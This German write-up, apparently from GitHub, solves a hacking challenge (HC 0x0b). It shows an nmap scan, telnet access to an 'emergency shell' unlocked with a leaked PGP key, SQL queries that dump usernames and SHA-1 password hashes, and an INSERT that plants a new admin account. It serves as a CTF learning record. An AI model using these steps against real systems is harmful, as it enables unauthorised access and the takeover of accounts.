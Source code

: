 # Solution of [HC 0x0b](https://hc.the-morpheus.de/0x0b.html) from [The Morpheus Tutorials](https://the-morpheus.de)

### 1. Analyse der [Webschnittstelle](http://84.200.109.239:8080)
 - Beim drücken des Login Buttons wird das eingegebene Passwort im Funktionsaufruf in base64 kodiert.
 - Schnittstelle `/getInfos` mit HTTP Methods `POST` aufrufbar um Privaten PGP Schlüssel zu erhalten.
 - Anweisungen zum Zurücksetzen des Passworts im "Reset Password Modal" 

### 2. Port der Itrago Emergency Shell herausfinden
```
$ nmap -sC the-morpheus.de

Starting Nmap 7.01 ( https://nmap.org ) at 2018-06-11 00:01 CEST
Nmap scan report for the-morpheus.de (185.244.192.170)
Host is up (0.073s latency).
Not shown: 991 filtered ports
PORT     STATE  SERVICE
... 
23/tcp   open   telnet
...
```

### 3. Auf Itrago Emergency Shell zugreifen
Mithilfe von Netcat oder Telnet auf die Shell zugreifen:
```
Itrago WebTool Emergency Access Shell
Please decrypt the following message to verify that you are the Administrator (itragoadmin@hc.the-morpheus.de)!
Encrypted Message:
-----BEGIN PGP MESSAGE-----

hQEMA/2xjz5/xxcJAQf9GRYhh3ZFZuV562xkkpEpi4qWjf83l2J9atSYSbrMsEOk
WxbyukwP2lYAMZdMd0P4TGGryObZQ5SabdY10LZpsKEfXoc83sTBNtxOT9zYaz7F
T7Qb+WQQy6fIEbaJB2O4IOdvh7inU1BldQ47sJWiN0pvPOnllrDATnLxiWrNoZlP
T/jPIXfgUtgwxXoIVHfYaABNwZumMhwoBD8FHp9t1+oPlYkh+31JViUnVk+Gi4EK
RsLpALQJMZjVDPm+5CCOcbSwtWJOA0crsevUcK+oOoj1Rk2YN3kYm9T+UHzsvj81
rx8WnNkyVIKhFVK7iY11n2IIF1NCoFdGsIqbZClmzNJKAbe2RPmZWp98njRCr6oN
cSs5qooNMHcHULckD3hUZzmGciMTZIB1BQTO/BuUFbflAjnzTZTHtin2FarqgVm6
Ygt9deviu4gcizQ=
=mP9G
-----END PGP MESSAGE-----

Message: 
```

### 4. PGP Nachicht entschlüsseln
Für die Entschlüsselung der PGP Message benötigen sie den PGP Private Key. Diesen können Sie über die `/getInfos` Schnittstelle erhalten. Beachten Sie, dass sich die Message bei jedem aufruf der Shell ändert. 

### 4. PGP Nachicht [entschlüsseln](https://www.igolder.com/PGP/decryption/) und eingeben
```
Message: 925014327749676

Emergency Shell Access Granted
$ help
Helppage
<SQL Query>   - Execute an SQL query
exit          - Quit the emergency shell
quit          - Quit the emergency shell
copyright     - Show the copyright informations
help          - Show this helppage
```

### 5. Datenbankschema verstehen
```
$ SHOW TABLES;
[{'Tables_in_hc': 'itrago'}, {'Tables_in_hc': 'umfrage'}, {'Tables_in_hc': 'users'}]
$ SELECT * FROM itrago;
[{'password': '0d1e46a9bc407c2601969ac20b7a9d0f8da1a8b0', 'username': 'itrago', 'id': 1},
 {'password': '504e73cf0aede565e54e1e9957960e3f0451ca9c', 'username': 'administrator', 'id': 2},
 {'password': '5d4c23967dbb4f75e6fe42dffd45489fb46ab9ce', 'username': 'support', 'id': 3},
 {'password': '40a2eb7c7f7300014012420c39e6fbedc75eeab2', 'username': 'praktikant', 'id': 4},
  ...]
```

Aufgrund der Passwortlänge kam man herausfinden, das für Passwörter das Hashverfahren [sha1](http://www.sha1generator.de) verwendetet wurde.

### 6. Mithilfe von SQL Befehlen einen Benutzer anlegen 
Dabei ist zu beachten, dass das Passwort mit einem Klick auf Login beim Login enkodiert wird. Dies kann entweder beim anlegen beachtet werden, alternativ kann die Funktion zum base64 Encoden aus dem HTML Code entfernt werden.

```
sha1(base64(admin)) == f5c828ff122cd8d0509051584236cceb28c78bfa
```

```
$ INSERT INTO itrago(username, password) VALUES ('admin', 'f5c828ff122cd8d0509051584236cceb28c78bfa');
Okay, last inserted id: 314181
```

Nun kann man sich mit dem Benutzername `admin` und dem Passwort `admin` im Itrago WebTool anmelden.

